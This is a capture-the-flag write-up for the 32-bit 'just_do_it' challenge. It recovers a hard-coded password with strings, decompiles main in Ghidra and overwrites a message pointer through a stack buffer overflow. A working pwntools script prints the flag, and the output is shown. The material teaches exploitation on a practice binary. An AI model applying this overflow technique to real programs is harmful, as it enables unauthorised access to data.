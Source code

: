 # tw17_justdoit

[Link to binary](https://github.com/guyinatuxedo/nightmare/blob/master/modules/04-bof_variable/tw17_justdoit/just_do_it)

---

```
~/Downloads > ./just_do_it 
Welcome my secret service. Do you know the password?
Input the password.
password123
Invalid Password, Try Again!
~/Downloads >
```

Fortunately enough, `strings` finds the password for us:

```
[...]
Correct Password, Welcome!
Invalid Password, Try Again!
P@SSW0RD
flag.txt
file open error.
[...]
```

```
~/Downloads > echo -n "P@SSW0RD" | ./just_do_it 
Welcome my secret service. Do you know the password?
Input the password.
Correct Password, Welcome!
```

The `-n` is to prevent `echo` from adding a newline to the end which is not considered part of the password by the executable.

But this isn't actually the flag, it's just a password. Let's fire Ghidra up.

```
undefined4 main(void)

{
  char *pcVar1;
  int iVar2;
  char local_28 [16];
  FILE *local_18;
  char *local_14;
  undefined *local_c;
  
  local_c = &stack0x00000004;
  setvbuf(stdin,(char *)0,2,0);
  setvbuf(stdout,(char *)0,2,0);
  setvbuf(stderr,(char *)0,2,0);
  local_14 = failed_message;
  local_18 = fopen("flag.txt","r");
  if (local_18 == (FILE *)0) {
    perror("file open error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  pcVar1 = fgets(flag,48,local_18);
  if (pcVar1 == (char *)0) {
    perror("file read error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Welcome my secret service. Do you know the password?");
  puts("Input the password.");
  pcVar1 = fgets(local_28,32,stdin);
  if (pcVar1 == (char *)0) {
    perror("input error.\n");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  iVar2 = strcmp(local_28,PASSWORD);
  if (iVar2 == 0) {
    local_14 = success_message;
  }
  puts(local_14);
  return 0;
}
```

The binary reads 48 bytes from `flag.txt` and put that in a global called `flag`. Can we divert a `puts` call to print it?

Well, do you see that call `puts(local_14)`? We can do a buffer overflow on `local_28` and write an arbitrary address into `local_14`. We just have to skip over a `FILE*` which, being a pointer and being this executable 32bits, is 4 bytes long.

```python
from pwn import *

p = process("./just_do_it")
p.sendline((16+4) * b" " + p32(0x0804a080))
print(p.recvall(1).decode())
```

`0x0804a080` is the address of the `flag` global. I got that from Ghidra. The address is static (doesn't change between executions) only because this executable is not PIE (Position Independent Executable). I'll explain PIE in future challenges.

```
~/Downloads > python pwn_just_do_it.py 
[+] Starting local process './just_do_it': pid 24985
[+] Receiving all data: Done (91B)
[*] Process './just_do_it' stopped with exit code 0 (pid 24985)
Welcome my secret service. Do you know the password?
Input the password.
Dear{just_pwn_it}
```
